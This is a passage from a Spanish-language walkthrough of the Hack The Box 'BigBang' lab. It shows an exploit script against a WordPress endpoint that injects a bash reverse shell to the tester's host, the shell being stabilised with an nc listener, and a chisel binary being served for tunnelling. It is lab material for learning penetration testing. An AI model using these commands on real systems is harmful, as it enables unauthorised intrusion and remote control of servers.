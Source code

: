 Ahora si ya podemos mandarnos una revershell: 

```bash
┌──(.venv)─(kali㉿kali)-[~/labs-hack/bigbang/cnext-exploits]
└─$ python3 cnext-exploit.py http://blog.bigbang.htb/wp-admin/admin-ajax.php "bash -c 'bash -i >& /dev/tcp/10.10.14.103/1337 0>&1'"
[*] The data:// wrapper works
[*] The php://filter/ wrapper works
[+] Exploit preconditions are satisfied
[*] Potential heaps: 0x7fca0b800040, 0x7fca0b600040, 0x7fca09e00040, 0x7fca07800040, 0x7fca06c00040 (using first)

     EXPLOIT  SUCCESS
```

Recibimos la shell y nos configuramos una terminal más interactiva: 

```bash 
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ script /dev/null -c bash 
</html/wordpress/wp-admin$ script /dev/null -c bash     
Script started, output log file is '/dev/null'.
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$ 
zsh: suspended  rlwrap nc -lvnp 1337
                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg             
[1]  + continued  rlwrap nc -lvnp 1337
www-data@8e3a72b5e980:/var/www/html/wordpress/wp-admin$
```


<h2 style="color: #9FEF00;"> Acceso Inicial. </h2>

Una vez dentro del sistema podemos empezar a curiosear, vemos que no disponemos de muchos comando, por cuestiones de seguridad imagino: 

```bash 
ww-data@8e3a72b5e980:/var/www/html/wordpress$ mysql
mysql
bash: mysql: command not found
```

Explorando opciones, encontré 2 muy interesantes, la primera es tunelizar el tráfico de mysql hacia nuestro host usando chisel: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]                                                     
└─$ cp /usr/local/bin/chisel .                                                                
                                                                                              
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]                                                     
└─$ ls                                                                                        
chisel  test  test2                                                                           
                                                                                              
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]                                                     
└─$ python3 -m http.server 8000                                                               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
